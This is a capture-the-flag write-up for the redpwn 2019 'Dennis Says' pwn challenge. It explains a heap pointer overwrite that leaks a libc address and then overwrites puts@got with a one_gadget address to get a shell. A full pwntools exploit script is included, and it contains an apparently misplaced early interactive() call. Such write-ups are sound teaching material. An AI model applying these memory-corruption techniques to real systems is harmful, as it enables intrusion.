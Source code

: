 # Dennis Says

## Pwn - Points: 344

> Written by: blevy
>
> 
>
> It's like "Simon Says," but with less memory safety.
>
> 
>
> `nc chall2.2019.redpwn.net 4006`
>
> [dennis.c](dennis.c)
>
> [dennis](dennis)
>
> [libc-2.23.so](libc-2.23.so)
>

The binary is a typical menu challenge and provides various actions. The exploit code first allocates `spm` on the heap via `greet` and writes the address of `puts@got` and the `spm` symbol into the static spm struct via `eat`:

```c
static struct spm {
	struct spm *spm;
	struct spm *spmm;
} *spm;

```

Then it uses `yeet` to modify the pointer `*spm`, that points to the allocated chunk on the heap, to point to `puts@got`.

```c
static void yeet(void)
{
	puts("Dennis yeet");
	memcpy(spm->spmm, spm, sizeof(spm));
}
```

We can now read the first 4 bytes with `writ` to leak the `puts` address of `libc` and can calculate the address for `one_gadget`.

Then we overwrite the `puts@got` pointer to point to `one_gadget` with another write action via `eat` and trigger a `puts` call to spawn a shell.

Exploit script:

```python
from pwn import *

libc = ELF('./libc-2.23.so')

e = ELF('./dennis')

p = process('./dennis')
# context.terminal = ['termite', '-e']
# p = gdb.debug('./dennis')
p.recvuntil(': ')

# malloc to initialize spm struct on the heap
p.sendline('1')
p.recvuntil(': ')
p.sendline('0')
p.recvuntil(': ')

# write into spm struct
# 
# static struct spm {
#	struct spm *spm;  -> puts@got
#	struct spm *spmm; -> spm symbol
# } *spm;
p.sendline('4')
p.recvuntil(': ')
p.sendline(p32(e.got['puts'])+p32(e.symbols['spm']))
p.recvuntil(': ')

# dereference puts@got by modifying spm symbol to point to puts@got
p.sendline('3')
p.recvuntil(': ')

# read first 4 bytes of spm that points to puts@got to leak puts libc address
p.sendline('2')
p.recvuntil(': ')
p.sendline('4')

puts = u32(p.recv(4))
log.info(hex(puts))

libc_base = puts - libc.symbols['puts']
one_gadget = libc_base + 0x3a61c

p.recvuntil(': ')
p.interactive()

# write one_gadget to puts@got
p.sendline('4')
p.recvuntil(': ')
p.sendline(p32(one_gadget))
p.recvuntil(': ')

# any input to cause a puts call
p.sendline('0wn3d')
p.interactive()
```